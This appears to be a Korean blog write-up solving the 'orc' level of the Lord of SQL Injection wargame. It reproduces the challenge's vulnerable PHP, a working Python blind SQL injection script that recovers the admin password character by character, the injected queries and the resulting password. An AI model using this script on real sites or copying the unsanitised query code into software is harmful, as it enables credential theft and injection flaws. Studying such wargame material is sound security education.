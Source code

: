 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orc 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


하루에 한 문제씩 `los` 문제를 풀어보는 중이다.  

다음 문제의 이름은 `orc`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw=''
-----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에는 문제를 풀기 위해 아래의 조건문을 통과해야 한다.  

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

입력 한 `pw`의 값과 데이터베이스에 저장되어 있는 `pw`의 값이 같아야 한다.  

즉, 정확한 `pw`의 값을 입력해야 문제를 풀 수 있다.  

이 문제는 `Blind SQL Injection`으로 해결했다.  

`Blind SQL Injection`은 쿼리 결과 에 따른 서버의 참과 거짓 반응을 통해 공격을 수행한다.  

이에 대해 이 전 블로그에 적어둔게 있는데, 지금은 옮기기 귀찮아서 나중에 시간이 될 때 옮겨오려 한다.  

문제를 풀기 위해 구현한 `exploit` 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `pw`의 길이를 알아내기 위해, `length()` 함수를 사용했다.  

이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and length(pw)=0#'
```

만약 pw의 길이가 `str(i)`의 값과 같을 경우 데이터베이스에서는 `id='admin' and length(pw)=0`의 두 조건이 모두 참이므로 `admin`의 행이 추출되어 `Hello admin`이 출력될 것이다.  

길이를 찾은 다음에는 해당 길이만큼 반복문을 수행 해 `pw`를 한 글자 씩 찾았다.  

`substr()`을 사용했는데, 이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and substr(pw, 0, 1)='0'
```

이 때도 만약 pw의 `str(j)`번 째 문자가 `chr(i)`의 값과 같을 경우 `id='admin' and substr(pw, 0, 1)='0'`의 모든 조건이 참이 되어 `admin`의 행이 추출된다.  

따라서 `Hello admin`이 출력된다.  

이 exploit 코드를 실행시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 09
[+] Found 3 : 095
[+] Found 4 : 095A
[+] Found 5 : 095A9
[+] Found 6 : 095A98
[+] Found 7 : 095A985
[+] Found 8 : 095A9852
[+] Found password :  095A9852
[+] End
```

그런데, `095A9852`를 입력해도 `Hello admin`은 출력되지만 문제는 풀리지 않았다.  

생각해보니 `MySQL`에서는 대소문자를 구분하지 않아 만약 `a`와 `A`를 비교해도 참을 반환한다는 것이 생각났다.  

그래서 대문자를 소문자로 바꾸어 다시 인증했더니 문제가 풀렸다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw='095a9852'
------------------------------------------------------------------------------------------------

Hello admin
ORC Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

`ORC Clear!!`
